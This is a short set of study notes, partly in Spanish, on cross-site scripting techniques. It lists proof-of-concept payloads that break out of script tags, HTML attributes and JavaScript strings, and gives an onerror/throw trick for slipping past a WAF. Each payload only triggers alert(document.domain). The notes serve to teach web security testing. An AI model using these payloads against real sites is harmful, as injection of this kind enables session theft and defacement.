 ```

</script><img src=1 onerror=alert(document.domain)>

```

### XSS in HTML tag attributes

>  close the tag, and introduce a new one.

```

"><script>alert(document.domain)</script>

```

### Breaking out of a JavaScript string

> In cases where the XSS context is inside a quoted string literal, it is often possible to break out of the string and execute JavaScript directly. It is essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing.

```
'-alert(document.domain)-'
';alert(document.domain)//
```

### Angle Brackets encoded

por ejemplo al estar dentro de un script podrias cerrar las comillas y generar algo como esto

```
var a = ''-alert(1)-''

```

Cuando te encuentras detras de un WAF podrias tener caracteres restringidos para eso se usa 

```

onerror=alert;throw 1

```

#### throw

Lanza una excepcion definida por el usuario.

Por ejemplo:

```

throw "Error2"; // genera una excepción con un valor cadena
throw 42; // genera una excepción con un valor 42
throw true; // genera una excepción con un valor true

```
